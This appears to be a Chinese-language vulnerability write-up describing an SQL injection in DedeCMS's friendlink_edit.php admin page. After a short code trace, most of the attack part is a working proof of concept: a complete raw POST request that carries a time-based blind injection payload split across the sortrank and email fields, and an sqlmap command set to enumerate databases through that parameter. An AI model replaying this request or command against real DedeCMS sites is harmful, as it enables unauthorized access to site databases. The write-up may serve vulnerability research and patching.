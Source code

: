 漏洞一 SQL注入

路由地址： /dede/friendlink_edit.php 

找到可控变量 $webname;

发现if条件语句

 

发现这是else if($dopost=="saveedit")循环条件

 

进入 init（）、item（）

 

这段 PHP 代码定义了一个类中的 Init() 方法，其作用是从 $_POST 和 $_GET 中提取用户提交的表单数据，并分别保存到类的属性中。


这段代码的意思是从 $this->forms 中获取指定名称的表单字段值，如果不存在，则返回默认值。

由此可见，对参数没有过滤，但是由于页面没有回显，尝试时间盲注来判断，语句是否执行有效。

 

 

 

Poc

POST /dede/friendlink_edit.php HTTP/1.1

Host: zm.cms

Content-Length: 1290

Cache-Control: max-age=0

Origin: http://zm.cms

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryy9ctvlOoiOQK7mbA

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://zm.cms/dede/friendlink_edit.php?id=9&dopost=getedit

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=130cevhlnoej4dcsg1stootrap; DedeUserID=1; _csrf_name_f1c32558=4a819cbdba87ed37850602f6ac761737; _csrf_name_f1c325581BH21ANI1AGD297L1FF21LN02BGE1DNG=9fe9063907af3554; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=4ab7784072cbcbf3; DedeLoginTime=1751956169; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=313c73668fd8b3ea; ENV_GOBACK_URL=%2Fdede%2Ffriendlink_main.php

Connection: close

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="id"

 

9

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="dopost"

 

saveedit

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="url"

 

http://docs.dedecms.com/

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="sortrank"

 

'or sleep(5)/*'

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="webname"

 

DedeCMS维基手册

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="logo"

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="logoimg"; filename=""

Content-Type: application/octet-stream

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="msg"

 

 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="email"

 

'*/-- -

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="ischeck"

 

2

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="typeid"

 

1

------WebKitFormBoundaryy9ctvlOoiOQK7mbA

Content-Disposition: form-data; name="Submit"

 

 提 交 

------WebKitFormBoundaryy9ctvlOoiOQK7mbA--

 

 

 

进行sql测试

python3 sqlmap.py -r url.txt --dbs --batch -p sortrank --level 5 --risk 3

 

 

 

 

 
